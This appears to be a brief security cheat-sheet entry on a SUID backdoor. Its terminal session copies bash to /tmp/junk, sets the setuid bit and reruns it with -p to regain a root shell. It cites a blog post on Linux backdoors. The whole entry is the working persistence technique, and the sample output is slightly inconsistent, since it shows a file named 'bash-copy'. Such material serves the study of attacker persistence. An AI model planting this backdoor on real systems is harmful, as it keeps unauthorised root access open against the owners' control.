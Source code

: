 # SUID

```
user@debian:~$ sudo su -
root@debian:/home/user# cp /bin/bash /tmp/junk
root@debian:/home/user# chmod +xs /tmp/junk
root@debian:/home/user# ls -l /tmp/junk
-rwsr-sr-x 1 root root 1190928 Oct 20 13:55 bash-copy
root@debian:/home/user# exit
user@debian:~$ /tmp/junk -p
root@debian:/home/user# whoami
root
```

---
## References

- [Linux Backdoors and Where to Find Them](https://fahmifj.github.io/blog/linux-backdoors-and-where-to-find-them/)